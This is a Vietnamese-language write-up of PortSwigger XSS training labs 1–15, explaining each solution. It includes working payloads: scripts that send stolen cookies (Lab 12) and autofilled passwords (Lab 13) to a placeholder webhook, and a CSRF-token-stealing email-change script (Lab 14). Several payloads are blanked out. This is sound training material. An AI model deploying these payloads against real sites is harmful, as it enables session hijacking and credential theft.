# Lab 01: Reflected XSS into HTML context with nothing encoded
Chèn script vào trường search  


# Lab 02: Stored XSS into HTML context with nothing encoded
Chọn một post bất kỳ, mỗi post sẽ có chức năng đăng tải comment.
Ta có thể chèn script vào nội dung comment để thực hiện stored xss


# Lab 03: DOM XSS in document.write sink using source location.search
Đề yêu cầu tìm khai thác sink document.write với source location.search. Location.search là thuộc tính trả về kết quả truy vấn trong URL, ví dụ `abc.com?params=1` thì location.search trả về `?params=1`

Vì là một lỗi JS, mình xem thử các đoạn code script của trang xem sao. Mình tìm được một đoạn JS ở endpoint `/?search=` xử lý untrusted data `location.search`  
  

Đoạn script tạo một thẻ `img` mới, untrusted data trong `location.search` sẽ được thêm vào đường dẫn trong thuộc tính `src=`  
  

Vì script không thực hiện sàng lọc ký tự đặc biệt, nên mình sẽ thoát khỏi dấu nháy đổi của `src` và chèn thuộc tính `onload=alert(1)`.  
  

# Lab 04: DOM XSS in innerHTML sink using source location.search
Lab này chắc cũng tương tự với lab trên, sink sẽ nằm `?search=`, xài Dev tool tìm source `location.search` cho nhanh  
  

Untrusted data được thay đổi bằng `innterHTML.getElementById('searchMessage')`, search `id="searchMessage"`, thì nó chính thẻ có nội dung `search results...gì gì đó`.

Vì `innerHTML` không nhận thẻ `script` cũng như `svg`  
 

Vậy thì xài ``
  

# Lab 05: DOM XSS in document.write sink using source location.search inside a select element
Tìm được đoạn code JS với sink `location.search` trong thẻ `form`  
  

Đoạn code thực hiện hiển thị danh sách các cửa hàng bằng thẻ `<select>` và `<option>`, nếu có biến `store` thì danh sách hiển thị giá trị biến `store`, còn không thì duyệt các giá trị có trong danh sách `stores`.

Biến `store` là một untrusted data được truyền trực tiếp từ tham số `GET storeId`. Thay đổi tham số này thì danh sách `<select>` sẽ hiển thị option này.  
  

`GET storeId` được bao trong `<option selected>'+store+'</option>`, payload cần thoát được tag `<option>`, sau đó mới chèn script.
  

# Lab 06: Lab: DOM XSS in jQuery anchor href attribute sink using location.search source
Tìm được code JS với sink `location.search` trong endpoint `Submit Feedback`  
  

Đoạn code thực hiện thêm thuộc tính `href` vào thẻ có `id=backLink`. Giá trị thuộc tính `href` sẽ được lấy từ tham số `GET returnPath`.  

Ta biết script có thể được thực hiện thông qua các URI scheme, tham khảo: https://en.wikipedia.org/wiki/List_of_URI_schemes#Official_IANA-registered_schemes  

Đề yêu cầu `href` của thẻ có `id=backLink` phải trả về script, vậy để làm bài này, ta sẽ thay đổi giá trị của `GET returnPath` thành scheme `javascript:alert(1)`  
  

# Lab 07: DOM XSS in jQuery selector sink using a hashchange event
Tìm được đoạn JS với sink `location.hash` ở trang index.  
  

Giải thích sơ, `location.hash` trả về giá trị sau dấu `#` trên URL, ví dụ `https://abc.com/#xyz` thì trả về `#xyz`, `onhashchange` sẽ kích hoạt dựa trên sự thay đổi của phần tử này.  

Đoạn code dựa vào quy tắc trên để cuộn đến các nội dung của trang. Vị trí được cuộn tới lưu trong biến `post`  
```javascript
var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
```
Biến `post` sẽ là các thẻ `<h2>` nằm trong thẻ `<selection class="blog-list">`, các thẻ `<h2>` phải chứa nội dung giống với `location.hash.slice(1)`, `slice(1)` nhằm lược đi dấu `#`, `#xyz` --> `xyz` 


```javascript
if (post) post.get(0).scrollIntoView();
```
`post.get(0)` nhằm chuyền từ đối tượng jQuery -> DOM bình thường, `scrollIntoView()` sẽ cuộn đến thẻ `<h2>` đó

PortSwigger cung cấp khá thiếu thông tin về sink `$()` của jQuery cũng như tại sao phải sử dụng payload là `<iframe...`. Đại khái là sink không chỉ cho phép truy cập DOM mà còn cho phép tạo thêm các thẻ mới. Dựa vào đó, ta có thể tạo và kích hoạt script với `` thì biến `post` trở thành
```javascript
var post = $('section.blog-list h2:contains('')');
```
Thẻ `` đã vô tình làm jQuery hiểu lầm đây là một HTML code, dẫn đến render đoạn HTML này.  
Tham khảo thêm:  
https://jquery.com/upgrade-guide/1.9/#jquery-htmlstring-versus-jquery-selectorstring  
https://nvd.nist.gov/vuln/detail/CVE-2012-6708

Bắt đầu khai thác, chèn `` test thử  
  

Tuy nhiên, nếu ta gửi `url/#` như thế này, thì event hashchange sẽ không được trigger, dẫn đến thẻ `` không được render. Do đó, ta sử dụng `<iframe>` truy cập url hiện tại và có event là `onload= "this.src= 'url-hiện-tại/#' "`. Đầu tiên, iframe truy cập url gốc, event `onload` sẽ được trigger, thay đổi hash từ `#` -> `#`, hashchange được trigger dẫn đến thực thi ``
  

Bài này khá khoai do vận dụng jQuery nhưng PortSwigger lại cung cấp khá ít thông tin về payload cũng như cách jQuery hoạt động dẫn đến lỗi.

# Lab 08: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
Ái chà, bài này lại xài thư viện mới, đề bài có nói rằng AngularJS sẽ có hiệu lực với các thẻ có thuộc tính `ng-app`, các thẻ này có thể thực thi script trong cặp dấu `{{ script }}`.  

Ta tìm được endpoint search có thẻ `body` định nghĩa thuộc tính `ng-app`, nghĩa là toàn bộ các thẻ trong `body` đều chạy được `{{ script }}`, trong đó có trường trả về `search results for ...`   


Tìm hiểu thêm, `{{ script }}` của Angular chỉ cho phép chạy các hàm nằm trong `$scope` được quy định trước, nên không thể chạy được các hàm không được định nghĩa trong scope `{{ alert(1) }}` cũng như là `{{ print() }}`.  

Ta có thể bypass bằng cách thay vì gọi trực tiếp, ta có thể sử dụng `constructor` để gọi gián tiếp hàm `alert()`, ví dụ `alert.constructor` sẽ trả về Function(), chuỗi a thì `a.constructor` trả về String(). Trong bài này, ta sử dụng `Function()`, vì nó cho phép ta khai báo động một `Function()`, gọi gián tiếp một hàm JS khác, bypass được sandbox của AngularJS.   
Tham khảo:  
https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/Function#syntax    
https://portswigger.net/research/dom-based-angularjs-sandbox-escapes  

Vậy để khai thác, ta cần tìm một hàm có trong $scope của Angular, thêm phương thức constructor và lồng thêm hàm `alert(1)` vào   
  

# Lab 09: Reflected XSS into attribute with angle brackets HTML-encoded
Đề yêu cầu sử dụng XSS để thêm thuộc tính khi `<>` bị HTML encode.  
Phân tích HTML, ta phát hiện được rằng khi nhập giá trị trường search, không chỉ thẻ `<h1>` thay đổi giá trị mà thuộc tính `value` của `<input>` cũng thay đổi giá trị.  


Ta có thể thoát khỏi dấu nháy đôi này, chèn thêm một event cho phép trigger script.  
  

# Lab 10: Stored XSS into anchor href attribute with double quotes HTML-encoded
Thử post 1 comment như sau:  
  

Sau khi upload, trong ảnh dưới, ta thấy rằng tên user đã được nhúng link dẫn đến đường dẫn test mà ta đã nhập.  
  

Vậy ta chỉ cần nhập scheme javascript vào mục Website của bình luận là xong  
  

# Lab 11: Reflected XSS into a JavaScript string with angle brackets HTML encoded
Endpoint search có đoạn script như sau:  
  

Có vẻ như untrusted data của biến `GET searchTerms` được gán cho tham số `search` ở trong đoạn script  
  

Vậy giờ ta chỉ cần thoát chuỗi trong đoạn script và chèn thêm alert(1), payload của chúng ta là `'; alert(1); //` sẽ biến đoạn JS trở thành
```javascript
    var searchTerms = ''; 
    alert(1); //';
    document.write('');
```
  

# Lab 12: Exploiting cross-site scripting to steal cookies
Đề cung cấp thông tin lỗi XSS nằm trong chức năng comment, sử dụng lỗi này để lấy cookie của người dùng khác. Thử chèn `alert()` trong mục comment xem sao.
  

Vậy là comment không có encode bảo vệ.  
Cookie người dùng sẽ được lưu trong `document.cookie`, ta cần tạo 1 webhook và gửi 1 yêu cầu GET với `document.cookie` bằng `fetch()`.
```html
<script>fetch("WEB-HOOK-URL?cookie="+document.cookie)</script>
```

Kết quả thu được cookie.  


Cookie của target sẽ có 2 biến, `secret` và `session`. Dựa vào thông tin đó thay đổi cookie trong dev tool là xong lab.  
  

# Lab 13: Exploiting cross-site scripting to capture passwords
Đề cung cấp thông tin lỗi XSS nằm trong chức năng comment, sử dụng lỗi này để lấy username và pasword của người dùng khác.  

Test thử mục comment có encode script với payload.  
  

Vậy là không có encode.  
Để giải được lab này, ta cần nắm được chức năng tự động điền form của trình duyệt. Ngữ cảnh có thể xảy ra là người dùng cài đặt chức năng tự động điền thông tin form trên trang web, khi truy cập trang web, trình duyệt sẽ tìm các form tương ứng và điền nội dung đã được cài đặt trước.

Ta cần giả mạo một form, có `name=username` và `name=password`, trình duyệt sẽ tìm và tự động điền username và password vào form, do đó, ta sử dụng event `onchange` để kích hoạt script `fetch()` đến webhook.  
```html
<input name=username id=uname>
<input name=password onchange="fetch('WEB-HOOK-URL?username='+uname.value+'&password='+this.value)">
```

Kết quả thu được username và password  
  


# Lab 14: Exploiting XSS to bypass CSRF defenses
Đề cung cấp thông tin lỗi XSS nằm trong chức năng comment, sử dụng lỗi này để lấy token CSRF của người dùng khác, thực hiện thay đổi email.  

Trước tiên, mình tìm hiểu chức năng thay đổi email. Sau khi đăng nhập, thực hiện đổi email, trang web sẽ gửi một gói tin POST kèm với token CSRF.  
   

Sử dụng chức năng view page source, ta phát hiện được giá trị token csrf thường được chèn trong các form input  
  

Mình đã biết được chức năng thay đổi email nằm ở endpoint `/my-account/change-email/`, vị trí token csrf. Vậy sẽ ra sao nếu mình viết 1 đoạn script trích xuất token csrf trong các form, gửi token đó cho endpoint thay đổi email.  

Đầu tiên, cần viết payload lấy token csrf, vì token này là giá trị của thuộc tính `value` của thẻ `input`, nên có thể sử dụng DOM để trích xuất giá trị.  
```js
let token = document.getElementsByName("csrf")[0].getAttribute("value") 
```

Tiếp theo, viết payload gửi request đến endpoint, có 2 tham số là token csrf và email mong muốn.  
```js
fetch('/my-account/change-email',{
    method:'POST',
    body: 'email=test-csrf@gmail.com&csrf='+token
})
```

Sử dụng dev tool gửi thử payload hoàn chỉnh, thành công thay đổi được email    
  
  

Ghép cả 2 lại 
```html
<script>
let token = document.getElementsByName('csrf')[0].value;

fetch('/my-account/change-email',{
    method:'POST',
    body: 'email=test-csrf3@gmail.com&csrf='+token
});
</script>
```
Tuy nhiên nếu gửi payload trên, thì vẫn không hoàn thành được lab, dev tool sẽ báo lỗi như sau  
  

Lỗi xảy ra do không truy cập được `document.getElementByName`. Mình check bằng debugger của dev tool, mình hiểu được là do đoạn script mình chèn vào, nó sẽ nằm trước cái form input, lúc đó, form chưa được load nên trình duyệt không tìm được element form đó, dẫn đến lỗi.


Mình có thể giải quyết vấn đề này với `window.addEventListener('DOMContentLoaded', function(){SCRIPT})`, script của mình sẽ được kích hoạt khi toàn bộ DOM HTML được load xong.

Giờ mình chỉ cần chèn script vào chức năng comment là xong.  
```html
<script>
window.addEventListener('DOMContentLoaded', function(){
let token = document.getElementsByName('csrf')[0].value;

fetch('/my-account/change-email',{
    method:'POST',
    body: 'email=test-csrf3@gmail.com&csrf='+token
});
})
</script>
```
  

# Lab 15: Reflected XSS into HTML context with most tags and attributes blocked
Đề cung cấp thông tin lỗi XSS nằm trong chức năng search. Test thử với `alert()` xem sao.  
    

Thử với các payload khác như ``, `<iframe>`,... mình đoán đang chặn việc tìm kiếm các thẻ, ngay cả thẻ bình thường như `<h1>` cũng không cho chèn vào mục tìm kiếm. Tuy nhiên khi thử với `<>` thì không bị chặn.  
   

Search `h1` không bị gì hết, mình đoán filter của trang web sẽ chặn theo cú pháp `<+TÊN THẺ`.  

Tuy nhiên đọc kỹ lại đề, mình nhận ra lab chỉ filter phần lớn các thẻ và thuộc tính, chứ không phải toàn bộ, vậy có nghĩa là vẫn có những thẻ khác không bị lọc.   

Mình sử dụng Burp Intruder bruteforce tìm các thẻ không bị lọc, nếu thẻ bị lọc thì response là 400 còn pass được thì là 200, các bước mình thực hiện như sau.  

**B1**. Gửi gói tin endpoint `/search` sang Intruder, attack type sẽ là Simple List, vị trí sẽ là `/?search=<WORDLIST`
